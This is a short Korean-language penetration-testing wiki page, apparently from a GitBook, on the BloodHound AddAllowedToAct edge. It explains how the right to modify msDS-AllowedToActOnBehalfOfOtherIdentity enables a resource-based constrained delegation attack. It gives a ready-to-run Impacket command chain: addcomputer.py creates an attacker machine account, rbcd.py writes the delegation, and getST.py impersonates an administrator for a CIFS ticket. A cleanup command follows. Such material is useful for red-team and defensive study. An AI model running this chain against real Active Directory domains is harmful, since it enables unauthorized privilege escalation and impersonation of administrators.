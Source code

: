 # AddAllowedToAct

* 대상의 `msDS-AllowedToActOnBehalfOfOtherIdentity` 특성을 수정할 수 있는 권한. 이를 통해 RBCD 공격을 진행할 수 있게 된다.
* 블러드하운드 Edge

<figure><img src="../../.gitbook/assets/msds-AllowedToActOnBehalfOfOtherIdentity.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/bh-addallowedtoact.png" alt=""><figcaption></figcaption></figure>

## 악용 - 컴퓨터

공격자의 유저가 컴퓨터를 대상으로 AddAllowedToAct 권한을 가지고 있다면, 대상 컴퓨터의 `msDS-AllowedToActOnBehalfOfOtherIdentity` 를 변경해 RBCD 공격을 진행한다.

```
addcomputer.py -method LDAPS -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-host $DomainController -domain-netbios $DOMAIN 'domain/user:password

rbcd.py -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'TargetComputer' -action 'write' 'domain/user:password'

getST.py -spn 'cifs/targetcomputer.testlab.local' -impersonate 'admin' 'domain/attackersystem$:Summer2018!'
```

## 유의점

* 대상의 `msDS-AllowedToActOnBehalfOfOtherIdentity` 특성을 수정하기 때문에 공격자 머신 계정을 해당 특성에서 지워 해당 특성을 원래 값으로 되돌려놓는다.

```
rbcd.py -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'TargetComputer' -action 'remove' 'domain/user:password'
```

